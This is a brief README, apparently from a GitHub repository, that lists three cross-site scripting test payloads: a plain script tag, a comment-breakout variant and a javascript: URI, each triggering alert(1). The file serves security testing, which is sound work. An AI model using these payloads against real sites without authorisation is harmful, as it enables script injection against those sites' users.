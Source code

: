 # xss-test-cases

These are some XSS test cases I've developed.


    Case 1 Payload

<script>alert(1)</script>

    Case 2 Payload

--!><script>alert(1)</script>

    Case 3 Payload

javascript:alert(1);


